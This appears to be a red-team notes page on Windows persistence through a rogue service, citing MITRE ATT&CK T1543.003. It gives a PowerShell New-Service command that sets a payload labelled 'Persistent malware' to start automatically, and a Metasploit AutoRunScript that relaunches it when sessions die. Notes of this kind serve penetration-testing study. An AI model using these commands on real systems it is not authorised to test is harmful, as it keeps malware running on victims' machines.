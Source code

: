 
> This require an elevated shell

Adversaries may create or modify Windows services to repeatedly execute malicious payloads as part of persistence. When Windows boots up, it starts programs or applications called services that perform background system functions. Windows service configuration information, including the file path to the service's executable or recovery programs/commands, is stored in the Windows Registry.

Services may be created with administrator privileges but are executed under SYSTEM privileges


### Setup
Services can be created from the command prompt if the account has local administrator privileges. The parameter “binpath” is used for the execution of the arbitrary payload and the “auto” to ensure that the rogue service will initiate automatically.

##### Via powershell
```powershell
New-Service -Name "joker" -BinaryPathName "C:\Users\talion\AppData\Roaming\jkr.exe" -Description "Persistent malware" -StartupType Automatic

Start-Service joker
```

---

Note that sometime the shell die pretty quickly, you can still use the option `AutoRunScript` from `multi/handler`
see https://subscription.packtpub.com/book/networking-and-servers/9781786463166/9/ch09lvl1sec62/using-autorunscript-in-metasploit

> Remember to Reactivate the option `ExitOnSession` if you use this technique, otherwise you will create new sessions indefinitely

```
$> cat autorun.rc
execute -Htzf "C:\Users\talion\AppData\Roaming\jkr.exe"
$> fg
msf> set AutoRunScript autorun.rc
```


--- 

Sources:
- https://pentestlab.blog/2019/10/07/persistence-new-service/
- https://attack.mitre.org/techniques/T1543/003/